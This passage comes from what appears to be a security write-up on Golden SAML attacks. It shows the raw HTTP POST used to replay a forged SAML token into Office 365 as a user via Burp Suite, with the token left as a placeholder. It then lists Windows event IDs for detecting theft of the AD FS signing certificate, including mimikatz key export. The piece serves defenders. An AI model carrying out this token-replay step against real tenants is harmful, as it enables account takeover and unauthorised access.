### Use golden SAML to access Office 365


The adversary now simply needs to use the forged SAML token to sign into Office 365 as ADA_FOX. This can be done using tools such as the [Burp Suite](https://portswigger.net/burp) repeater to replay web requests: Simply use the output of Step 4 and the web request information below to replay the request. and then use the “request in browser” function to perform this request in the browser. Once that’s complete, the attacker will be prompted with the **Continue to sign-in page.**

```powershell
POST /login.srf HTTP/1.1
Host: login.microsoftonline.com
Connection: close
Content-Length: 7962
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
DNT: 1

wa=wsignin1.0&wresult={STEP 4 OUTPUT}
```


## Detect


It's possible to detect signs of Golden SAML exploitation at two points:   

- When the adversary compromises the signing secrets (Step 2)
- When the adversary uses a forged token (Step 5)

#### **Detection during Secret Compromise**

As detailed above, before an attacker can forge a SAML token, they must compromise the AD FS service and export the AD FS signing certificate and its private key. Defenders should pay attention to unusual logins to the AD FS server, as well as unusual sources of authentication from the AD FS service account itself. Furthermore, the following events should be monitored for certificate exports on the AD FS Server:  
  

|   |   |   |   |
|---|---|---|---|
|**Event ID**|**Event Log**|**System**|**Information**|
|70|Microsoft-Windows-CAPI2/Operational|AD FS server|Private key export attempt (mimikatz)|
|1007|Microsoft-Windows-CertificateServicesClient-Lifecycle-System/Operational|AD FS server|General certificate exports; no information on whether private key was exported|
|4662|Security|Domain controllers|DKM key reconaissance; When ObjectName is like CN=CryptoPolicy,CN=ADFS,CN=Microsoft,CN=Program Data,DC=YourDomain,DC=local and properties contains thumbnailPhoto {8d3bca50-1d7e-11d0-a081-00aa006c33ed}|
|18|Microsoft-Windows-Sysmon/Operational|AD FS server|Named Pipe Connection to WID database not from the ADFS executable. Requires Sysmon to be installed and configured correctly.|
